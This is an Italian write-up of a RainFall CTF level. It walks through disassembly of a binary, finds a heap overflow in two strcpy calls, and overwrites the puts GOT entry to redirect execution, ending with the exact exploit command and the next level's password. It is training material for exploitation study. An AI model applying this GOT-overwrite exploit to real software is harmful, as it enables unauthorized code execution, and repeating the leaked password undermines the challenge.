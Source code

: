 # Level 7
Controlliamo le stringhe presenti nel binario:
```
level7@RainFall:~$ readelf -p '.rodata' level7

String dump of section '.rodata':
  [     8]  %s - %d^J
  [    11]  r
  [    13]  /home/user/level8/.pass
  [    2b]  ~~
```
e analizziamo le funzioni presenti:
```
level7@RainFall:~$ gdb -q level7
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx
   0x08048581 <+96>:    mov    0x18(%esp),%eax
   0x08048585 <+100>:   mov    %edx,0x4(%eax)
   0x08048588 <+103>:   mov    0xc(%ebp),%eax
   0x0804858b <+106>:   add    $0x4,%eax
   0x0804858e <+109>:   mov    (%eax),%eax
   0x08048590 <+111>:   mov    %eax,%edx
   0x08048592 <+113>:   mov    0x1c(%esp),%eax
   0x08048596 <+117>:   mov    0x4(%eax),%eax
   0x08048599 <+120>:   mov    %edx,0x4(%esp)
   0x0804859d <+124>:   mov    %eax,(%esp)
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx
   0x080485c7 <+166>:   mov    $0x80486eb,%eax
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
---Type <return> to continue, or q <return> to quit---
End of assembler dump.
(gdb) disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

### Funzione `main`
Riserva spazio nello stack per le variabili locali e chiama 4 volte `malloc(8)` dove nelle chiamate
dispari alloca probabilmene una di dimensione 8 quindi con all'interno almeno un intero e un puntatore
e nelle chiamate pari alloca al puntatore nella struttura la memoria per poi inserire tramite `strcpy` 
il contenuto degli argomenti passati al binario.
Successivamente chiama le funzioni `fopen`, `fgets` e `puts` nel seguente modo:
```
fopen("/home/user/level8/.pass", "r");
fgets(c, 68, eax);
puts("~~");
```

### Funzione `m`
Chiama la funzione `printf` stampando la stringa nella variabile `c` precedentemente scritta da `fgets`
e i millisecondi tramite la funzione `time(0)`

### Soluzione
Essendo il primo argomento ad esser copiato dalla prima `strcpy` è proprio grazie a lui che possiamo
sovrascrivere l'indirizzo in cui la seconda `strcpy` copia il secondo argomento individuando l'offset esatto:
```
level7@RainFall:~$ ltrace ./level7 AAA BBB
__libc_start_main(0x8048521, 3, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                   = 0x0804a008
malloc(8)                                                                   = 0x0804a018
malloc(8)                                                                   = 0x0804a028
malloc(8)                                                                   = 0x0804a038
strcpy(0x0804a018, "AAA")                                                   = 0x0804a018
strcpy(0x0804a038, "BBB")                                                   = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                       = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A"*30') BBB
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                   = 0x0804a008
malloc(8)                                                                   = 0x0804a018
malloc(8)                                                                   = 0x0804a028
malloc(8)                                                                   = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")                        = 0x0804a018
strcpy(0x41414141, "BBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
il nostro obiettivo è quello di eseguire la funzione `m` al posto dell'inutile funzione `puts` subito
dopo `fgets`, per fare questo andremo a copiare l'indirizzo della funzione `m` nell'offset riguardante 
`puts` nella Global Offset Table (GOT).
Per individuare l'indirizzo di destinazione useremo il seguente comando:
```
level7@RainFall:~$ objdump -R level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
mentre l'indirizzo della funzione `m` è già presente nel `disass m` in `gdb`.
Ora non rimane che eseguire il seguente comando:
```
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1634928791
level7@RainFall:~$ su level8
Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```